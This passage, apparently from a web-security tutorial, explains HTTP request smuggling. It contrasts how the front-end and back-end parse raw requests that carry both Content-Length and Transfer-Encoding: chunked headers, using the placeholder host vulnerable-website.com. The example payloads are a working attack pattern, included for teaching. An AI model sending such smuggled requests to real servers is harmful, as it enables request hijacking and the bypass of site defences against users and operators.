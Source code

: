 - TCP connection between the front-end and back-end is reused for multiple request/response cycles.
- Attacker can successfully smuggle a complete, standalone request that receives its own distinct response from the back-end server.
- Attack does not result in either server closing the TCP connection. Servers generally close incoming connections when they receive an invalid request since they cannot determine where the request is supposed to end.

If you smuggle a request that also contains a body, the next request on connection will be appended to the body of the smuggled request, often having the side effect of truncating the final request based on the apparent Content-Length. The back-end sees three requests, where the third is just a series of leftover bytes.

For example, the front-end sees:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=

--------------------------------------------------------------------------------------------

GET / HTTP/1.1
Host: vulnerable-website.com
```

And the back-end sees:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

-------------------------------------------------------------------------------------

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: v

--------------------------------------------------------------------------------------

ulnerable-website.com
```
